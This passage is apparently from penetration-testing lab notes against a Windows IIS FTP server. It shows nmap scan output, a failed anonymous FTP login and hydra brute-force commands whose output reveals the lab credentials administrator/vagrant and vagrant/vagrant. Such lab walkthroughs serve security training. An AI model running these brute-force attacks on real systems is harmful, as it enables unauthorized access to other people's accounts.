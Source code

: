 ```bash
|   RTSPRequest, SIPOptions: 
|     HTTP/1.1 200 OK
|     Content-Type: text/plain; charset=UTF-8
|_    Content-Length: 0
49152/tcp open  msrpc                Microsoft Windows RPC
49153/tcp open  msrpc                Microsoft Windows RPC
49154/tcp open  msrpc                Microsoft Windows RPC
49155/tcp open  msrpc                Microsoft Windows RPC

```





---

#### Targeting Microsoft IIS FTP    

**check if anonymous login is allowed**

```bash
root@attackdefense:~# ftp 10.4.31.186
Connected to 10.4.31.186.
220 Microsoft FTP Service
Name (10.4.31.186:root): anonymous
331 Password required for anonymous.
Password: 
530 User cannot log in.
ftp: Login failed
ftp> bye
221 Goodbye.
```



**bruteforce ftp credentials with hydra**

```bash
root@attackdefense:~# hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ftp://10.4.31.186
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-11 21:51:17
[DATA] max 16 tasks per 1 server, overall 16 tasks, 7063 login tries (l:7/p:1009), ~442 tries per task
[DATA] attacking ftp://10.4.31.186:21/
[STATUS] 4275.00 tries/min, 4275 tries in 00:01h, 2788 to do in 00:01h, 16 active
[21][ftp] host: 10.4.31.186   login: administrator   password: vagrant



root@attackdefense:~# hydra -l vagrant -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ftp://10.4.31.186
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-11 21:59:42
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking ftp://10.4.31.186:21/
[21][ftp] host: 10.4.31.186   login: vagrant   password: vagrant
```
